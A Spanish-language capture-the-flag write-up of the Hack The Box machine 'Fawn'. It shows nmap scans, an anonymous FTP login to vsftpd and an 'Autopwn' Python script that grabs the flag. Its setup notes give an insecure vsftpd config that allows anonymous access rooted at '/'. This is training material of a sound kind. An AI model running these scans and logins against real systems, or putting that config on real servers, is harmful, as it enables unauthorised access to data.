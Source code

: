 # Fawn

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.163.99

PING 10.129.163.99 (10.129.163.99) 56(84) bytes of data.
64 bytes from 10.129.163.99: icmp_seq=1 ttl=63 time=169 ms

--- 10.129.163.99 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 168.735/168.735/168.735/0.000 ms
```

El sistema operativo identificado es **Linux**.

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.163.99 -oG openPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -sCV -p 21 10.129.163.99 -oN targeted

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.71
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```

| Puertos | Servicios | Versión      |
| ------- | --------- | ------------ |
| 21      | ftp       | vsftpd 3.0.3 |

¿Qué es FTP?
[RFC](https://www.rfc-es.org/rfc/rfc0959-es.txt)

🗹 Conectarse al servidor mediante el protocolo FTP con el usuario **anonymous** y sin ingresar contraseña:

```shell
ftp ftp://anonymous:@10.129.163.99

Connected to 10.129.163.99.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp>
```

### Flag

La **flag** se encuentra en el directorio principal:

`more flag.txt`
## Cositas aprendidas

✅ Configurar el servicio FTP:
- Instalar el servidor FTP **vsftpd** (Very Secure FTP Daemon): `sudo apt install vsftpd`.
- Configurar el servidor FTP modificando el archivo `/etc/vsftpd.conf`:

```shell
anonymous_enable=YES
anon_root=/
```

- Habilitar el servicio `vsftpd` con el comando `systemctl start vsftpd`.
- Si hacemos una actualización a la configuración del archivo `/etc/vsftpd` reiniciar el servicio con el comando `systemctl restart vsftpd`.
## Autopwn

```python
#!/usr/bin/env python3

import argparse
from ftplib import FTP
from termcolor import colored


def get_args():

    parser = argparse.ArgumentParser(prog='Fawn Autopwn')
    parser.add_argument('-t', '--target', help='Dirección IP del servidor', dest='target')

    return parser.parse_args()


def connect_to_ftp(target):

    ftp = FTP()
    ftp.connect(target)
    ftp.login()
    flag = []
    ftp.retrlines('RETR flag.txt', flag.append)
    flag = ''.join(flag)
    print(colored(f'\n[+]', 'blue'), 'Flag:', colored(f'{flag}', 'green'), colored('[+]', 'blue'))
    ftp.quit()


def main():

    print(colored('\n[+]', 'blue'), 'Fawn', colored('[+]', 'blue'))

    args = get_args()
    connect_to_ftp(args.target)

if __name__ == '__main__':

    main()
```

![Fawn Autopwn](/Images/fawn_autopwn.png)
